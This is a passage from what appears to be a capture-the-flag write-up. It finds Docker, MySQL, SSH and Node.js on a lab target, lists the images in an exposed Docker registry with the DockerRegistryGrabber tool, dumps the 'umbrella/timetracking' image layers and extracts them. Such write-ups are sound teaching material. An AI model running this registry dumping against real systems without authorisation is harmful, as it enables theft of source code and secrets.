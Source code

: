 Okay, we have
- `SSH`
- `MySQL`
- `Docker`
- `Node.js`

As for the website - we have login page
But there is `Docker Registry`

### Docker registry enumeration

We'll use tool called [DockerRegistryGrabber](https://github.com/Syzik/DockerRegistryGrabber)

Go to cloned catalogue and let's start with listing available images
```
$ python drg.py http://$IP --list
[+] umbrella/timetracking
```

There is one image - maybe there is something inside. 

We should dump it
```
$ python drg.py http://$IP --dump umbrella/timetracking
[+] BlobSum found 23
[+] Dumping umbrella/timetracking
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : c9124d8ccff258cf42f1598eae732c3f530bf4cdfbd7c4cd7b235dfae2e0a549
    [+] Downloading : 62c454461c50ff8fb0d1c5d5ad8146203bb4505b30b9c27e6f05461b6d07edcb
    [+] Downloading : 82f3f98b46d4129f725cab6326d0521589d5b75ae0a480256495d216b2cd9216
    [+] Downloading : e5e56a29478cdf60132aa574648135a89299151414b465942a569f2109eefa65
    [+] Downloading : 7fbf137cf91ff826f2b2fddf3a30ea2e3d2e62d17525b708fd76db392e58df62
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : 15b79dac86ef36668f382565f91d1667f7a6fc876a3b58b508b6778d8ed71c0e
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : 23e2f216e8246d20ed3271ad109cec07f2a00b17bef8529708d8ae86100c7e03
    [+] Downloading : f897be510228b2f804fc2cb5d04cddae2e5689cbede553fb2d587c54be0ba762
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : a3241ece5841b2e29213eb450a1b29385bf9e0063c37978253c98ff517e6e1b3
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : 00fde01815c92cc90586fcf531723ab210577a0f1cb1600f08d9f8e12c18f108
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : 3f4ca61aafcd4fc07267a105067db35c0f0ac630e1970f3cd0c7bf552780e985

```

There is a bit of it -

using this command:
```sh
for i in *.tar.gz; do tar -xzvf $i; done
```
